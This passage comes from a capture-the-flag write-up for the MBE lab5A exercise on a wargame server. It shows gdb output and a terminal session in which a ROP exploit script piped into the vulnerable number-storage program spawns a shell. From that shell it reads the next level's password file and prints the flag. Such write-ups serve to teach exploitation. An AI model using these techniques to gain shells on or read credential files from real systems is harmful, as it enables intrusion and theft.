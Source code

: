 ```nasm
Input command:  Number:  Index:  Completed store command successfully
Input command:  Number:  Index:  Completed store command successfully
Input command:  Number:  Index:  Completed store command successfully
Input command:  Number:  Index:  Completed store command successfully
Input command:  Number:  Index:  Completed store command successfully
Input command:  Number:  Index:  Completed store command successfully
Input command:  Number:  Index:  Completed store command successfully
Input command:  Number:  Index:  Completed store command successfully
Input command:  Number:  Index:  Completed store command successfully
Input command:  Number:  Index:  Completed store command successfully
Input command:  Number:  Index:  Completed store command successfully
Input command:  Number:  Index: process 6927 is executing new program: /bin/dash
[Inferior 1 (process 6927) exited normally]
Warning: not running or target is remote
```

Nice!

## Solution

As usual, given the stack change a bit outside *gdb*, we will need to play with the value of the address pointing to "/bin/sh". After subtracting *0x40* to the address of "/bin/sh" we finally got a shell.

```bash
lab5A@warzone:/levels/lab05$ (python /tmp/ropme.py; cat -) | ./lab5A
----------------------------------------------------
  Welcome to doom's crappy number storage service!
          Version 2.0 - With more security!
----------------------------------------------------
 Commands:
    store - store a number into the data storage
    read  - read a number from the data storage
    quit  - exit the program
----------------------------------------------------
   doom has reserved some storage for himself :>
----------------------------------------------------

Input command:  Number:  Index:  Completed store command successfully
Input command:  Number:  Index:  Completed store command successfully
Input command:  Number:  Index:  Completed store command successfully
Input command:  Number:  Index:  Completed store command successfully
Input command:  Number:  Index:  Completed store command successfully
Input command:  Number:  Index:  Completed store command successfully
Input command:  Number:  Index:  Completed store command successfully
Input command:  Number:  Index:  Completed store command successfully
Input command:  Number:  Index:  Completed store command successfully
Input command:  Number:  Index:  Completed store command successfully
Input command:  Number:  Index:  Completed store command successfully
Input command:  Number:  Index:  Completed store command successfully
Input command:  Number:  Index:  Completed store command successfully
Input command:  Number:  Index:  Completed store command successfully
Input command:  Number:  Index:  Completed store command successfully
Input command:  Number:  Index:
whoami
lab5end
cat /home/lab5end/.pass
byp4ss1ng_d3p_1s_c00l_am1rite
```

Awesome! You can go to the next [challenge](/writeups/mbe/lab6c/) and explore **ASLR**.